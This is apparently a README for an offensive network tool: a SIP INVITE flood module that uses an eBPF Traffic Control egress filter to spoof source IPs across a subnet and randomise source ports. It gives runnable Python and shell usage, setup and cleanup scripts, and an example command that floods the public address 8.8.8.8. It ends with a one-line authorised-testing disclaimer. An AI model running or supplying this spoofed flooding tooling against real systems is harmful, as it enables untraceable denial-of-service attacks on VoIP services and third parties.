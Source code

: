 # eBPF-Enhanced InviteFlood Attack Module

This directory contains an advanced eBPF-based SIP INVITE flood attack implementation that uses Traffic Control (TC) filters for sophisticated packet spoofing.

## Files

- `attack_ebpf_inviteflood.py` - Main eBPF-enhanced attack module
- `test_ebpf_attack.py` - Test script demonstrating usage
- `setup_inviteflood_spoof.sh` - Helper script for eBPF setup
- `spoof_kern.c` - eBPF kernel program for packet spoofing
- `load_tc_spoofer.sh` - Load eBPF TC filters
- `unload_tc_spoofer.sh` - Unload eBPF TC filters
- `status_tc_spoofer.sh` - Check eBPF filter status

## Important Limitations

### eBPF TC Egress Path Limitation

**Critical**: eBPF Traffic Control filters only work on packets that actually traverse the network interface's egress path. This means:

- ✅ **Works**: Targeting external/remote IP addresses
- ❌ **Doesn't work**: Targeting the local interface IP (loopback traffic)

**Example**:
```bash
# Your interface IP
ip addr show wlan0
# Output: inet 143.53.142.93/21 ...

# ❌ This WON'T be spoofed (loopback traffic)
inviteflood wlan0 200 143.53.142.93 143.53.142.93 5 -S 4000

# ✅ This WILL be spoofed (external traffic)  
inviteflood wlan0 200 8.8.8.8 8.8.8.8 5 -S 4000
```

The reason is that packets destined to the local interface IP are handled internally by the network stack and never reach the TC egress filters where our eBPF program is attached.

## Features

### Advanced eBPF Spoofing
- **Round-robin IP spoofing**: Cycles through IP addresses in a configurable subnet
- **Random source ports**: Generates random ephemeral ports (49152-65535)
- **Traffic Control integration**: Uses TC egress filters for packet manipulation
- **Kernel-level performance**: eBPF runs in kernel space for high performance

### Attack Capabilities
- **SIP INVITE flooding**: Sends multiple SIP INVITE requests
- **Configurable parameters**: Target IP/port, packet count, source port
- **Dry-run mode**: Test configuration without sending packets
- **Automatic cleanup**: Properly removes eBPF filters on completion

## Usage

### Basic Usage
```python
from sip_attacks.ePBF2.attack_ebpf_inviteflood import EbpfInviteFloodAttack

# Create attack instance
attack = EbpfInviteFloodAttack(
    target_ip="143.53.142.93",
    target_port=5060,
    interface="wlan0", 
    source_port=4000,
    max_count=5,
    spoofing_subnet="10.10.123.0/24"
)

# Run the attack
attack.run()
```

### Command Line Test
```bash
# Run the test script
./test_ebpf_attack.py
```

### Manual eBPF Setup
```bash
# Set up eBPF spoofing manually
./setup_inviteflood_spoof.sh wlan0 143.53.142.93 10.10.123.0/24 5060 4000

# Run inviteflood (packets will be automatically spoofed)
sudo inviteflood wlan0 200 143.53.142.93 143.53.142.93 5 -S 4000 -D 5060

# Clean up eBPF filters
./unload_tc_spoofer.sh wlan0
```

## Requirements

- `clang` - LLVM compiler for eBPF
- `tc` - Traffic Control utility
- `bpftool` - eBPF inspection tool
- `inviteflood` - SIP INVITE flood tool
- Root privileges for eBPF and raw socket operations

## How It Works

1. **eBPF Program**: The `spoof_kern.c` program is compiled to eBPF bytecode
2. **TC Filter**: Attached to the network interface's egress path
3. **Packet Matching**: Filters UDP packets to target IP:port
4. **Spoofing**: Modifies source IP (round-robin) and source port (random)
5. **Attack Execution**: `inviteflood` sends packets normally, eBPF modifies them

## Configuration

The eBPF program is configured via BPF maps:
- `spoof_cfg`: Target IP/port, spoofing subnet, source port filter
- `spoof_rr`: Round-robin counter for IP selection

## Example: Converting Your Command

Your original command:
```bash
inviteflood wlan0 200 143.53.142.93 143.53.142.93 5 -i 10.10.123.1 -S 4000
```

Becomes:
```python
attack = EbpfInviteFloodAttack(
    interface="wlan0",
    target_ip="143.53.142.93", 
    target_port=5060,  # Default SIP port
    max_count=5,
    source_port=4000,
    spoofing_subnet="10.10.123.0/24"  # Subnet around your source IP
)
attack.run()
```

The eBPF program will automatically spoof packets from the entire `10.10.123.0/24` subnet instead of just `10.10.123.1`.

## Troubleshooting

- **Permission denied**: Ensure you have root privileges
- **Compilation errors**: Check that `clang` and kernel headers are installed
- **TC errors**: Verify that Traffic Control is supported on your interface
- **Map errors**: Check that `/sys/fs/bpf` is mounted
- **Spoofing not working**: 
  - Check if targeting local interface IP (use external IP instead)
  - Verify eBPF program is loaded: `tc filter show dev <interface> egress`
  - Check eBPF maps: `sudo bpftool map show pinned /sys/fs/bpf/tc/globals/spoof_cfg`
  - Use `tcpdump` to verify packet modification: `sudo tcpdump -i <interface> -n host <target_ip>`

## Security Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper authorization before testing against any systems.
